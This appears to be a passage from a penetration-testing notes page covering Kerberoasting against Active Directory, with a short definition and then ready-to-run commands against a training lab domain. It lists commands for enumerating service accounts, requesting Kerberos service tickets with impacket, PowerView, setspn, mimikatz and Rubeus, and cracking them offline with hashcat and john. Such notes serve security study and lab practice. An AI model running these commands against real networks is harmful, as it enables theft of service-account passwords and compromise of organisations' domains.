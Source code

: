 If the entire process completes appropriately, the user will be permitted to access the requested service or application.

***

### **Kerberoasting**

> Kerberoasting is a technique to collect TGS tickets for service accounts, which can be enumerated by any user since no special privileges are required. To check if a user account is a service user, you just need to check if the property "ServicePrincipalName" (SPN) is not null. In order words, the first step to perform Kerberoasting is to find users with the SPN property set.\
> The goal of Kerberoasting is to crack the TGS tickets for service accounts (with SPN set). The TGS tickets are encrypted with keys derived from user passwords. As a consequence, it's possible to gain the password of the targeted service user by offline password cracking.

{% hint style="warning" %}
If `impacket-GetUserSPNs`throws the following error\
`KRB_AP_ERR_SKEW(Clock skew too great)`\
we need to synchronize the time of the Kali machine with the domain controller. We can use `ntpdate` or `rdate` to do so.
{% endhint %}

1. **Enumerate service accounts with SPN set:**
   * Using GetUsersSPNs.py from Linux:\
     `GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/username`
   * Using the (built-in) Active Directory module:\
     `Import-Module ActiveDirectory` followed by `Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName`
   * Using PowerView:\
     `Import-Module .\PowerView.ps1` followed by `Get-DomainUser -SPN -Properties samaccountname,ServicePrincipalName`
   * Using setspn from Windows:\
     `setspn.exe -Q */*`
2. **Request TGS tickets:**
   * Request all tickets with GetUsersSPNs.py from Linux:\
     `GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/username -request -outputfile filename`
   * Request a single ticket with GetUsersSPNs.py from Linux:\
     `GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/username -request-user target-user -outputfile filename`
   * Request ticket with PowerView:\
     `Import-Module .\PowerView.ps1` followed by `Get-DomainUser -Identity targetuser | Get-DomainSPNTicket -Format Hashcat`
   * Request all tickets with setspn:\
     `setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }`
   * Request all tickets with mimikatz:\
     `base64 /out:true` followed by `kerberos::list /export`
   * Request specific ticket using Rubeus:\
     `.\Rubeus.exe kerberoast /user:svc_mssql /outfile:hashes.kerberoast /nowrap`
   * Request tickets for users with admin count set to 1:\
     `.\Rubeus.exe kerberoast /ldapfilter:'admincount=1'`
   * Request all tickets using Rubeus:\
     `.\Rubeus.exe kerberoast /outfile:hashes.kerberoast /nowrap`
3. **Offline Password Cracking:**
   * Using Hashcat:\
     `hashcat -m 13100 tgstickethashfile /usr/share/wordlists/rockyou.txt`
   * Using John:\
     `john --format=krb5tgs --wordlist=/usr/share/wordlists/rockyou.txt hashes.kerberoast`
